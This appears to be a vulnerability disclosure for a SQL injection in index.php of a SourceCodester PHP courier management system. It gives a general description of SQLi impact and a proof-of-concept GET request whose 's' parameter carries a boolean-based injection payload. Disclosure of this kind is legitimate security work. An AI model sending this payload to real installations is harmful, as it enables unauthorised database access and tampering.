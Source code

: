 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Best courier management system project in php | SourceCodester](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

**Vulnerability File:**

index.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
GET /gaatitrack/?page=parcel_list&s=-1 or 3*2*1=6 and 1=1 --+ HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20231015135419799](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135207862.png)

![image-20231015135207862](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135419799.png)

![image-20231015135659359](https://github.com/GodRone/Courier-Management-System_SQL-injection/blob/main/Courier%20Management%20System_SQL%20injection.assets/image-20231015135659359.png)

















